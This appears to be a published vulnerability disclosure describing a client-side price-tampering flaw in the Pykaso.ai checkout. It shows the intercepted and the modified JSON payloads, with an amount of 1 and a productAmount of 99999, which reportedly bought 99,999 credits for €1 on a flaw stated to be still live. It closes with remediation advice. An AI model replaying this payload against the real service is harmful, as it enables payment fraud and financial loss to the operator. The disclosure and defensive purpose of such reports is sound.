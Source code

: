 # 0-Day Vulnerability Disclosure: Critical Logic Flaw in Pykaso.ai Payment System

## Summary

While analyzing Pykaso.ai, I noticed abnormal credit balances in a friend's account. This prompted a deeper investigation into the platform’s payment logic. Using a local MITM proxy, I discovered a severe client-side validation flaw that allows users to manipulate payment data and obtain premium service credits for a fraction of the actual cost.

This document outlines the technical details of the vulnerability, demonstrates the impact, and provides evidence of the exploit. The issue has been responsibly disclosed to the Pykaso team and remains active at the time of writing.

---

## Technical Details

### Step 1: Identifying Suspicious Behavior

A friend’s Pykaso.ai account had a significantly high number of credits despite being on a lower-tier plan. This led to suspicions of an unintended vulnerability.

### Step 2: Sniffing the Payment Endpoint

Using `mitmproxy`, I intercepted the network traffic and located the following endpoint triggered during checkout:

```
https://app.pykaso.ai/pricing/checkout/basic-50
```

The POST request payload looked like this:

```json
[
  {
    "amount": 6,
    "productAmount": 6,
    "userId": "X",
    "promoCodeId": "$undefined",
    "email": "example@yin.sh",
    "country": "DE"
  }
]
```

### Step 3: Modifying the Payload

I adjusted the `amount` and `productAmount` fields:

```json
[
  {
    "amount": 1,
    "productAmount": 99999,
    "userId": "null",
    "promoCodeId": "$undefined",
    "email": "example@yin.sh",
    "country": "DE"
  }
]
```

This led to a successful response from the server:

```json
0: {"a": "$@1", "f": "", "b": "null"}
1: "https://checkout.dodopayments.com/null"
```

The URL generated an invoice on the DodoPayments gateway for a payment of only **€1**.

### Step 4: Confirming the Exploit

After paying the €1 invoice, I returned to Pykaso.ai. My account was credited with **99,999+ credits**, equivalent to services worth thousands of euros.

The credits were fully usable and functioned as if legitimately purchased through a normal checkout flow.

---

## Evidence

Screenshots have been captured to support this vulnerability report, including:

- POST Request
- Invoice 
- Account dashboard showing inflated credits after payment


![ezgif-4186a00915f7c2](https://github.com/user-attachments/assets/8be7e244-7ce7-4138-a1c3-101cbe66600a)

![ezgif-5462b69fdd67cf](https://github.com/user-attachments/assets/d60ff193-a99f-4685-9e14-2d2522154959)
![transc](https://github.com/user-attachments/assets/f9151d2b-a866-46a2-8230-59b093fcebcd)


---

## Impact

- **Unlimited credit generation:** Any user can gain access to high-tier services by paying minimal amounts.
- **Server-side validation bypass:** The payment system fully trusts client-side inputs for pricing.
- **Potential financial loss:** This exploit allows massive resource abuse at negligible cost.

---

## Remediation Recommendations

1. Validate all transaction data (amount, productAmount) strictly on the server.
2. Use signed tokens to protect integrity of client-side data.
3. Disallow credit or product multipliers from being passed in client-side JSON.
4. Implement server-side sanity checks to flag suspicious transactions.
5. Monitor invoice-generation frequency and volume per user account.

---

## Responsible Disclosure

I have contacted the Pykaso.ai team regarding this vulnerability. The exploit remains live at the time of publication. I will update this report upon receiving an official response or patch confirmation.

If you're part of the Pykaso security team, please reach out for a full disclosure package, including traffic logs, headers, and video proof of concept.

---

## Contact

**Researcher:** Detective  
**Email:** 0day@yin.sh 
**Report Copy:** 

---

## Legal Disclaimer

This report is intended solely for educational and responsible disclosure purposes. No data was sold, leaked, or misused. The vulnerability was reported in good faith to improve the platform’s security posture.

Unauthorized exploitation of vulnerabilities is illegal and unethical. Always follow responsible disclosure best practices.
